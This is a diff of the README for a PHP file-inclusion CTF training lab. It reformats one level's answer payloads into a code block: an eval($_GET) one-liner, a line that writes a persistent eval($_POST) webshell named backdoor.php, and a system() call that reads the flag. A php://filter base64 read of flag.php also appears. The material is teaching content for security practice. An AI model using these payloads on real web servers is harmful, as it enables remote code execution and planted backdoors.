

Before and after one commit to ProbiusOfficial/PHPinclude-labs, a Markdown page: README.md, the part around the change printed below. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -233,11 +234,14 @@ php://filter/convert.base64-encode/resource=flag.php
 
 题目已经提供对应答案：
 
-> /* Try Raw: <?php eval($_GET['ctf']); ?> */ 间接代码执行
->
-> /* Or <?php fputs(fopen('backdoor.php','w'),'<?php eval($_POST["ctf"]); ?>'); ?> */ 生成后门木马
->
-> /* Or <?= system('tac flag.???');?>  */  直接命令执行
+```php
+<?php eval($_GET['ctf']); ?> /* 间接代码执行 */
+
+<?php fputs(fopen('backdoor.php','w'),'<?php eval($_POST["ctf"]); ?>'); ?> /* 生成后门木马 */
+
+<?= system('tac flag.???');?> /* 直接命令执行 */
+
+```
 
 ### Level 8 php://filter_过滤器&字符串过滤器
 
````
Also changed, not shown: other parts of README.md (+4 -3 lines).
